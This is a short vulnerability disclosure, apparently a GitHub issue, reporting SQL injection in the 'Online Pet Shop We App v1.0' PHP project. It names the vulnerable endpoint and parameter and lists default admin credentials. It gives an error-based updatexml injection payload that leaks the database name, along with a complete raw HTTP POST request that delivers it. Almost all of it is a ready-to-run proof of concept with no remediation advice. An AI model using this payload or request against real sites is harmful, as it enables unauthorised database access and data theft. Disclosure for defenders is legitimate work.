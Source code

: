 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Line

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/classes/Master.php?f=delete_category,id

Vulnerability location: /pet_shop/classes/Master.php?f=delete_category,id

dbname=pet_shop_db,length=11

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /pet_shop/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/185293331-7cbf894e-f604-4e76-9628-1cbaef610463.png)
